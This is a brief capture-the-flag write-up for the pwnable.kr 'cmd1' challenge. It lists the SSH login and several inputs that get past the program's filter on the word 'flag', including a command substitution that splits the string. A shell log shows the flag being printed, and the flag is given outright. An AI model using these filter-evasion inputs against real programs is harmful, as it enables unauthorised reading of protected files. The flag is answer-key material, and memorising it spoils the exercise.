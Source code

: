 # Source

Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

[code](./cmd1.c)

# 🚩Solve

- W1: __./cmd1 "/bin/cat *"__
- W2: __./cmd1 '$(echo "/bin/cat fl""ag")'__
- W3: __./cmd1 "/bin/python"__
- ...

```bash
cmd1@pwnable:~$ ./cmd1 '$(echo "/bin/cat fl""ag")'
mommy now I get what PATH environment is for :)
cmd1@pwnable:~$
```

Flag: ___mommy now I get what PATH environment is for :\)___